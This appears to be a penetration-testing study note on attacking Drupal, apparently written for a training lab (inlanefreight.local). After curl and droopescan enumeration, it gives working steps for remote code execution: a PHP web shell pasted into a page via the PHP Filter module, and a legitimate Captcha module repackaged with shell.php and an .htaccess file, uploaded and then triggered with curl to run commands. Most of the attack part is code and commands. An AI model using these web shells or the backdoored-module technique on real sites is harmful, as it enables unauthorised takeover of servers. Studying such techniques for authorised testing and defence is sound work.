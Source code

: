 # Drupal Attack

### Discovery/Footprinting

```shell-session
curl -s http://drupal.inlanefreight.local | grep Drupal
```

### Enumeration

```shell-session
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

```
droopescan scan drupal -u http://drupal-qa.inlanefreight.local
```

### Attacking Drupal

#### Leveraging the PHP Filter Module

* after login select php filters

```
http://drupal-qa.inlanefreight.local/#overlay=admin/modules
```

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

* From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

```
http://drupal-qa.inlanefreight.local/#overlay=node/add
```

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

```
http://drupal-qa.inlanefreight.local/#overlay=node/add/page
```

#### From version 8 onwards,

* the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default.
* To leverage this functionality, we would have to install the module ourselves.

```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

* Once downloaded go to `Administration` > `Reports` > `Available updates`.

```
http://drupal.inlanefreight.local/admin/reports/updates/install
```

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

* From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.
* Once the module is installed, we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select `PHP code` from the `Text format` dropdown.

#### Uploading a Backdoored Module

* Drupal allows users with appropriate permissions to upload a new module.
* A backdoored module can be created by adding a shell to an existing module

```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```

```shell-session
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

* Next, we need to create a .htaccess file to give ourselves access to the folder.
  * This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

```shell-session
mv shell.php .htaccess captcha
```

```shell-session
tar cvf captcha.tar.gz captcha/
```

* Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar
  * Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install`&#x20;
  * Browse to the backdoored Captcha archive and click `Install`.

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
